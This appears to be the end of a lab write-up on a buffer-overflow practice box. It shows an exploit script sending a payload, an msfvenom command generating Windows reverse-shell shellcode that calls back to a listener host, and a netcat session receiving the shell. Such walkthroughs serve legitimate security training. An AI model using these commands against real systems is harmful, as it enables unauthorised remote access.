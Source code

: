 ```python
print(r.recv().decode())

r.sendline(payload)
```
The payload was generated using `msfvenom` command. 
```
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.9.15.73 LPORT=4444 EXITFUNC=thread -b "\x00\x23\x3c\x83\xba" -f c > payload.c
```

Listening on port 4444 using netcat, I obtained a reverse shell.

```
$ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.17.141 49258
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop\vulnerable-apps\oscp>whoami
whoami
oscp-bof-prep\admin
```

## Conclusion

The other tasks are solved in much the same way so they are omitted from this writeup.